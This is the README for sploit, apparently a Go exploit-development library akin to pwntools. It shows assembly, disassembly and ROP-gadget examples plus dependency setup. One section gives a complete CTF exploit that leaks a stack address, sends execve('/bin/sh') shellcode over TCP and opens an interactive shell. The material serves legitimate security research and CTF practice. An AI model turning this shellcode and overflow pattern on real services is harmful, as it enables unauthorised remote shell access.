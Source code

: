 # sploit ![Test Status](https://github.com/zznop/sploit/workflows/test/badge.svg)

Sploit is a Go package that aids in binary analysis and exploitation. The motivating factor behind the development of
sploit is to be able to have a well designed API with functionality that rivals some of the more common Python exploit
development frameworks while taking advantage of the Go programming language. Excellent cross-compiler support,
goroutines, powerful crypto libraries, and static typing are just a few of the reasons for choosing Go.

This project is inspired by pwntools and other awesome projects. It is still early in development. Expect for this
project to be focused heavily on shellcoding, binary patching, ROP stack construction, and general binary analysis.

#### Solution for a CTF Challenge

```go
package main;

import(
    sp "github.com/zznop/sploit"
)

var arch = &sp.Processor {
    Architecture: sp.ArchI386,
    Endian: sp.LittleEndian,
}

var scInstrs = `mov al, 0xb   /* __NR_execve */
                sub esp, 0x30 /* Get pointer to /bin/sh (see below) */
                mov ebx, esp  /* filename (/bin/sh) */
                xor ecx, ecx  /* argv (NULL) */
                xor edx, edx  /* envp (NULL) */
                int 0x80`

func main() {
    shellcode, _ := sp.Asm(arch, scInstrs)
    r, _ := sp.NewRemote("tcp", "some.pwnable.on.the.interwebz:10800")
    defer r.Close()
    r.RecvUntil([]byte("HELLO:"), true)

    // Leak a stack address
    r.Send(append([]byte("/bin/sh\x00AAAAAAAAAAAA"), sp.PackUint32LE(0x08048087)...))
    resp, _ := r.RecvN(20)
    leakAddr := sp.UnpackUint32LE(resp[0:4])

    // Pop a shell
    junk := make([]byte, 20-len(shellcode))
    junk = append(junk, sp.PackUint32LE(leakAddr-4)...)
    r.Send(append(shellcode, junk...))
    r.Interactive()
}
```

#### Compiling Assembly to Machine Code

```go
package main;

import(
    "github.com/zznop/sploit"
    "encoding/hex"
    "fmt"
)

func main() {
    instrs := "mov rcx, r12\n"              +
              "mov rdx, r13\n"              +
              "mov r8, 0x1f\n"              +
              "xor r9, r9\n"                +
              "sub rsp, 0x8\n"              +
              "mov qword [rsp+0x20], rax\n"

    arch := &sploit.Processor {
        Architecture: sploit.ArchX8664,
        Endian: sploit.LittleEndian,
    }

    opcode, _ := sploit.Asm(arch, instrs)
    fmt.Printf("Opcode bytes:\n%s\n", hex.Dump(opcode))
}
```

```
$ ./assemble_example
Opcode bytes:
00000000  4c 89 e1 4c 89 ea 49 c7  c0 1f 00 00 00 4d 31 c9  |L..L..I......M1.|
00000010  48 83 ec 08 48 89 44 24  28                       |H...H.D$(|
```

#### Disassembling Code in an ELF Executable

```go
package main;

import(
    "github.com/zznop/sploit"
    "fmt"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    vaddr := uint64(0x1135)
    count := 34
    fmt.Printf("Disassembling %v bytes at vaddr:%08x\n", count, vaddr)
    disasm, _ := elf.Disasm(vaddr, count)
    fmt.Print(disasm)
}
```

```
$ ./disassemble_example
Disassembling 34 bytes at vaddr:00001135
00001135: push rbp
00001136: mov rbp, rsp
00001139: sub rsp, 0x10
0000113d: mov dword ptr [rbp - 4], edi
00001140: mov qword ptr [rbp - 0x10], rsi
00001144: lea rdi, [rip + 0xeb9]
0000114b: call 0x1030
00001150: mov eax, 0
00001155: leave
00001156: ret
```

#### Querying and Filtering ROP Gadgets

```go
package main;

import(
    "github.com/zznop/sploit"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    rop, _ := elf.ROP()

    matched, _ := rop.InstrSearch("pop rbp")
    matched.Dump()
}
```

```
0000111f: pop rbp ; ret
0000111d: add byte ptr [rcx], al ; pop rbp ; ret
00001118: mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
00001113: call 0x1080 ; mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
000011b7: pop rbp ; pop r14 ; pop r15 ; ret
000011b3: pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011b2: pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011af: add esp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011ae: add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
...
```

## Dependencies

Some of Sploit's functionality relies on external dependencies. For instance, Sploit uses GCC's GAS assembler to
compile assembly code and capstone to disassemble compiled code as part of the API exposed by `asm.go`.

Install capstone:

```
git clone https://github.com/aquynh/capstone.git --branch 4.0.2 --single-branch
cd capstone
make
sudo make install
```

Install GCC cross-compilers. The following commands assume you are running Debian or Ubuntu on a Intel workstation
and may need changed if running another Linux distro:

```
sudo apt install gcc gcc-arm-linux-gnueabi gcc-aarch64-linux-gnu gcc-mips-linux-gnu \
  gcc-mipsel-linux-gnu gcc-powerpc-linux-gnu
```

If you would rather use docker, an image containing the external dependences is on
[Docker Hub](https://hub.docker.com/repository/docker/zznop/sploit). Pull it with the following command:

```
docker pull zznop/sploit:latest
```
